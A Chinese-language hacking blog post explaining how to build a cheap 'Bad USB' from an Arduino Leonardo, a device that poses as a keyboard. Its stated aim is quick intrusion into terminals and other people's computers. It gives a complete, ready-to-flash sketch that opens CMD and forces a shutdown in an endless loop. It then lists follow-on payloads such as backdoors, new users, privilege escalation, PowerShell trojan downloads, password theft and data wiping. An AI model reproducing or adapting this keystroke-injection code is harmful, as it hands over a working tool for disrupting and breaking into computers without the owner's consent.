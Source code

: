 ```yaml
---
title: Arduino Leonardo 打造 Bad USB
date: 2016-11-27 02:48:23
tags: hack 
categories: hack
permalink: badusb
---
```


嘿嘿嘿，又是一篇猥琐小文。

<!--more -->

# 简介

什么是Bad USB？

![](/content/images/badusb/0.jpg)

BadUSB最可怕的一点是恶意代码存在于U盘的固件中，由于PC上的杀毒软件无法访问到U盘存放固件的区域，因此也就意味着杀毒软件和U盘格式化都无法应对BadUSB进行攻击。

简单来说，就是让USB设备伪装成但却充当键盘，被插入的电脑猝不及防会被迅速输入一定的“指令”，这个指令会让该电脑迅速成为肉鸡。

# 目标

![](/content/images/badusb/1.jpg)

打造一个廉价Bad USB，实现对 终端机、别人的电脑快速合法化入侵。

```flow
st=>start: 插入Bad USB
op=>operation: 自动执行CMD/Powershell
op1=>operation: 下载需要执行的程序
op2=>operation: 执行程序
cond=>operation: 等待30秒 循环执行

st->op->op1->op2->cond->op
```
# 效果
![](/content/images/badusb/preview.gif)

# 原料
1. Arduino Leonardo
2. 普通安卓USB线

# 举个🌰

比如我们要实现一个插入优盘就让对方电脑关机的功能：

用Arduino开发者工具，选择

![](/content/images/badusb/2.jpg)

Arduino Leonardo

然后把程序烧录进去

```C
#include <Keyboard.h>

void setup() {//初始化
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
void loop()//循环
{
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
```

已经在多台Windows电脑上试验成功。

# 进阶

当然，你可以实现很多功能

- 删除系统关键注册表使之蓝屏
- 留后门
- 新建用户
- 用户提权
- 调用Powershell下载木马
- 调用Powershell下载木马及从内存中提取出当前用户的Windows密码
- rm -rf *

此外，发现了一个专门收集Badusb的Github用户，非常有学习价值。

https://github.com/Xyntax/BadUSB-code

# 参考
http://www.extremetech.com/extreme/191467-badusb-returns-hackers-publish-code-that-could-infect-millions-of-usb-devices

http://www.freebuf.com/sectool/107242.html

http://www.freebuf.com/articles/terminal/53886.html

